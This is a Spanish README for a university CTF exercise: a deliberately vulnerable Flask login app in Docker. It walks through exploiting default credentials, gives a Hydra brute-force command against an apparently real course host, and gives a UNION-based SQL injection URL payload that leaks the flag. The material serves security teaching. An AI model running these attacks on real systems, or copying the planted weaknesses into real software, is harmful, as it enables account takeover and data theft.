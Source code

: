 # Aplicacion Web Vulnerable

<table>
  <tr>
    <th>Autores</th>
    <th>Apellido</th>
    <th>Nombre</th>
  </tr>
  <tr>
    <td> &#9745; </td>
    <td>Adra</td>
    <td>Federico</td>
  </tr>
  <tr>
    <td> &#9745; </td>
    <td>Alfonsin</td>
    <td>Jeronimo</td>
  </tr>
  <tr>
    <td> &#9745; </td>
    <td>Reinoso</td>
    <td>Francisco</td>
  </tr>
</table>

---

## Dockerfile

```docker
FROM python:3.6.6-alpine3.8

ENV FLASK_APP /www/app.py
ENV FLASK_DEBUG 1
ENV FLASK_RUN_PORT 8888

RUN apk add bash gcc musl-dev mysql mariadb-dev build-base

ADD entrypoint.sh /entrypoint.sh

RUN mkdir /www

EXPOSE 8888

ENTRYPOINT [ "/entrypoint.sh" ]
```

## Docker-Compose.yml

```yml
version: '3'

services:

  login:
    container_name: trabajo-integrador-eshs
    image: practica2
    restart: always
    volumes:
      - "./python_login/www/:/www/"
    ports:
      - 42069:8888

```

## ¿Como setear una flag?

Ir al archivo `trabajo_integrador/ESHS/python_login/www/app.py` 

La flag esta definida en el codigo. <br>
Se debe eliminar el archivo `trabajo_integrador/ESHS/python_login/www/test.db` <br>
Descomentar la siguiente seccion de codigo en _app.py_ :
```python
#FLAG = "flag{FLAG_NAME}" 
#db.create_all()
#db.session.add(User(username='admin', password='admin',email='',role='adminFalso'))
#db.session.add(User(username='su', password='qwerty',email='yonosoyCarlos@carlosMail.com',role='adminReal'))
#db.session.add(User(username='carlos', password='bien hecho', email='felicitaciones@quetengasunhermosodia.com.ar.us.xDDDD.saludosbrodarrrrrrrrr',role=f'{FLAG}'))
#db.session.commit()
```

Si por alguna razon no tiene docker corriendo:
```
sudo systemctl unmask docker
systemctl start docker
```

Ejecutar `./run.sh` para correr la aplicacion. <br>
Detener la aplicacion y volver a comentar el codigo anteriormente mencionado. <br>
Recuerde ejecutar `docker-compose down`. <br>
Volver a ejecutar `./run.sh` para correr la aplicacion. <br>

## ¿Como explotar la vulnerabilidad?

1. Vulnerabilidad en el `/login` <br>
   El usuario ingresa con credenciales por defecto. <br>
   Estas credenciales son las que se utilizan para el login: <br>
    <table>
      <tr>
        <th>Username</th>
        <th>Password</th>
      </tr>
      <tr>
        <td>admin</td>
        <td>admin</td>
      </tr>
    </table>

2. Vulnerabilidad en el `/loginCarlos` <br>
   El usuario ingresa con credenciales por muy usuales. <br>
   Si bien el usuario es medianamente mas rebuscado, sigue siendo el usuario por defecto en varias aplicaciones. <br>
   Estas credenciales son las que se utilizan para el loginCarlos: <br>
    <table>
      <tr>
        <th>Username</th>
        <th>Password</th>
      </tr>
      <tr>
        <td>su</td>
        <td>qwerty</td>
      </tr>
    </table>

    Notar que como los mensajes de error son relativamente aleatorios, uno pensaría que esto inutiliza Hydra. Sin embargo, dejamos de todas formas el mismo mensaje de error en caso de que el **username** sea correcto. <br>
    Una vez averiguado el mismo, el mensaje de error para distintas contraseñas sí es igual:
    <span style="color: #FF4000;">"Clave incorrecta! :D"</span>

    Ejemplo con Hydra:
    ```
    hydra -l su -P rockyou.txt -V "https-form-post://eshs2022.dsa.linti.unlp.edu.ar/loginCarlos:username=^USER^&password=^PASS^:F=Clave incorrecta"
    ```

3. Una vez que se explota la vulnerabilidad, se obtiene el <br> `/infoUsuario?username=su` <br>
En este caso, se puede hacer una Inyeccion SQL para obtener datos de la Base de Datos. <br> 
Si queremos acceder directamente a la flag, usamos el payload:

   ```
   http://localhost:42069/infoUsuario?username=asd' UNION SELECT username,username,role,role,role FROM user WHERE username!='admin' AND username!='su
   ```
    Se puede ver entonces que la flag se encuentra como: <br>
    `<a href="mailto:flag{FLAG_NAME}">flag{FLAG_NAME}</a>`


## Hint para el CTF

La hint que proponemos es:
- Pista para la pistita -> 64-62-58-45-32